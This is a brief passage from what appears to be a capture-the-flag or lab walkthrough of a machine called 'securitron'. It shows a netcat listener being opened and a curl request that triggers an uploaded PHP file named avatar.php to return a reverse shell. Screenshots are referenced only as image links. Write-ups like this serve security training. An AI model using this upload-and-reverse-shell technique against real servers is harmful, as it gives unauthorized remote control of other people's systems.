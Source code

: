![URL revshell](../../assets/images/securitron/image-23.png)

We start listening with netcat...

```bash
nc -lvnp 9001
```

and load the following URL with curl or the browser.

```bash
curl http://admin19-32.securitron.thl/uploadImage/Profile/avatar.php
```

![revshell](../../assets/images/securitron/image-24.png)
